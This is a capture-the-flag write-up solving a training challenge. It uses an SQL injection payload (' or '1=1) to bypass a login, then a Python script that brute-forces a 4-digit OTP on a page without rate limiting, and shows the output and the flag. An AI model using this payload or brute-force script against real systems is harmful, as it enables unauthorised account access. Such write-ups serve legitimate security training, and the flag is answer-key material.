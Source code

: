 # Mobile Phones Are Bad

**Date:** 04, July, 2021

**Author:** Dhilip Sanjay S

---

- The hacker said, Gurugram Interns are intelligent enough to get through this challenge. `https://mudpmd.hackingbrawl.com/`

### Let's brush some database 
- **Answer:** ctf{youdidit}
- **Hint:** Well admin will receive otp of 4 digits.
- **Steps to Reproduce:** 
	- Use a basic SQL injection payload to bypass the login.
	- Error based SQLi
		- username: `' or '1=1`
		- password: `' or '1=1`

![OTP](Images/OTPBypass.png)

- We have the OTP Verification page - without rate limiting.
- We can bruteforce the OTP!

![OTP Verification](Images/OTPVerification.png)

- Bruteforcing Python script:

```py
#! /usr/bin/python3
import requests

url = 'https://mudpmd.hackingbrawl.com/validate_login.php'

req = requests.Session()
for num in range(1000, 10000):
	try:
		print("[+] Guessing ", num)
		data = {
			'code' : num,
			'btnValidate' : ''
		}
		r = req.post(url, data=data, timeout=5)
		if "Invalid Authentication Code!" not in r.text:
			print(r.text)
			exit(0)
	except requests.Timeout as err:
		print("Error occurred")
		break
```

- The OTP is **7621**:

```html
[..snip..]
[+] Guessing  7621
<!doctype html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Hackershala OTP BYPASS : User Profile</title>

<link rel="stylesheet" href="css/bootstrap.min.css">
</head>
<body>
<div class="container">
<div class="row jumbotron">
<div class="col-md-12">
<h2>
<center>Simple OTP Bypass Simulation</center>
</h2>
<p>
<center>Get Trained at hackershala.com</center>
</p>
</div>
</div>
<div class="row">
<div class="col-md-5 col-md-offset-3 well">
<h2>User Profile</h2>
<h4>Welcome Hacker</h4>
<p>Account Details: ctf{youdidit}</p>
<p>Name: Admin </p>
<p>Username admin </p>
<p>Email <a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="1d7c797074735d7c79707473337e7270">[email&#160;protected]</a></p>
<br>
Click here to <a href="logout.php">Logout</a>
</div>
</div>
</div>
<script data-cfasync="false" src="/cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js"></script></body>
</html>
```

![OTP Hacked](Images/OTP-Hacked.png)

---